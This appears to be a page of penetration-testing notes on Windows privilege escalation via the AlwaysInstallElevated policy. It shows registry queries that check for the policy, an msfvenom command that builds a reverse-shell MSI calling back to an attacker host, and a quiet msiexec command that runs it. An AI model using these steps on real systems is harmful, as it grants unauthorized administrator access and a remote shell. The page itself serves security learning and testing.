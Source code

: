 # AlwaysInstallElevated Group Policy

Windows has a group policy which, when enabled, allows a user to install a Microsoft Windows Installer Package (`.msi` file) with elevated privileges. This poses a security risk because an adversary can simply generate a malicious `.msi` file and execute it with admin privileges.

In order to check for this vulnerability, one need only query the following registry keys:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](<../../../Post Exploitation/Privilege Escalation/Windows/Resources/Images/AlwaysInstallElevated/Query Registry Keys.png>)

The `AlwaysInstallElevated` policy appears enabled, so we can generate a malicious `.msi` executable. One way to do this is through Metasploit:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o reverse.msi
```

Next, transfer the executable to the target machine and execute it with `msiexec`:

```powershell
msiexec /quiet /qn /i <path>
```

![](<../../../Post Exploitation/Privilege Escalation/Windows/Resources/Images/AlwaysInstallElevated/msiexec.png>)

![](<../../../Post Exploitation/Privilege Escalation/Windows/Resources/Images/Shell.png>)

